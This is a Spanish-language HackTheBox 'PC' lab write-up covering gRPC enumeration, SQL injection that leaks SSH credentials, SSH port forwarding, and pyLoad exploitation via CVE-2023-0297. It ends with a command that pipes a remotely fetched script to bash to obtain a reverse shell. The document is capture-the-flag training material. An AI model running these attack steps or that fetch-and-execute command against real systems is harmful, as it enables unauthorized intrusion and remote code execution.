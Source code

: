 ```yaml
---
title: HackTheBox - PC
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'SQL Injection', 'PyLoad (CVE-2023-0297)', 'Local Port Forwarding (SSH)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/PC/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: PC Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **SQL Injection, PyLoad (CVE-2023-0297), Local Port Forwarding (SSH)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina PC**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/PC/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/PC/02-versions.png)

* Como nos sabemos que servicio se ejecuta en el puerto **50051** consultamos sobre los servicio más comunes que ocupen este puerto. 

    ![](/assets/images/HTB/Easy/PC/03-web.png)

    > Nos menciona algo de **gRPC** por lo que usaremos **grpcui**

c. Configuramos el grpcui e invetigamos sobre el servicio

```bash
root@kali> grpcui -plaintext 10.10.11.214:50051
```

![](/assets/images/HTB/Easy/PC/04-grpcui.png)

* Existen tres métodos **`LoginUser, RegisterUser` y `getInfo`**. Después de crear un usuario y autenticarnos, recibiremos un **token** el cual usaremos para el método **getInfo** y esta petición la capturamos con Burp Suite

    ![](/assets/images/HTB/Easy/PC/05-burp.png)

* El único data que se envía es el id y al enviarlo vemos el mensaje "El administrador está trabajando duro por arreglar los errores". Aquí podemos decir que existe una inyección SQL

    * La base de datos es **sqlite**

        ![](/assets/images/HTB/Easy/PC/09-db.png)

    * PayloadAllTheThings: [Sqlite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

        ![](/assets/images/HTB/Easy/PC/06-sqli.png)

    * Listamos las columnas de la base de datos **accounts**

        ![](/assets/images/HTB/Easy/PC/07-sqli2.png)

    * Vemos los datos de esta tabla

        ![](/assets/images/HTB/Easy/PC/08-sqli3.png)

    * Aquí vemos un usuario sau con una credencial que es válida para el servicio **SSH**

d. Nos autenticamos en el servicio SSH con las credenciales **`sau:H[Pass]31`**

```bash
root@kali> ssh sau@<IP PC>
sau@10.10.11.214's password:
-bash-5.0$ whoami
sau
```

### Escalada de Privilegios 💹

a. Al listar los puertos abiertos internamente en la máquina vemos otro puerto **8000**

```bash
sau@pc:~$ netstat -nat
Proto Recv-Q Send-Q Local Address   Foreign Address   State      
tcp     0      0 127.0.0.1:8000      0.0.0.0:*        LISTEN
<SNIP> 
```

* Este servicio es ejecutado por root

    ```bash
    sau@pc:~$ ps -faux
    <SNIP>
    root  1064  0.5  1.9 1222824 76660 ? Ssl 16:48 0:53 /usr/bin/python3 /usr/local/bin/pyload
    ```

b. Nos traemos este puerto jugando con SSH y **Local Port Forwarding**

```bash
root@kali> ssh -L 8000:127.0.0.1:8000 sau@<IP PC>
```

* Ahora ya podemos ver este servicio 

    ![](/assets/images/HTB/Easy/PC/10-pyload.png)

* Al buscar por vulnerabilidades en este servicio encontramos esto [CVE-2023-0297](https://www.exploit-db.com/exploits/51532), este script nos permite ejecutar comandos, no veremos el output del comando, pero, sabemos que se ejecutó, con lo que nos entablaremos una reverse shell

    ```bash
    root@kali> python3 poc.py -u http://localhost:8000 -c "curl http://<tun0 IP>:4444/index.html|bash"
    ```

    ![](/assets/images/HTB/Easy/PC/11-reverse.png)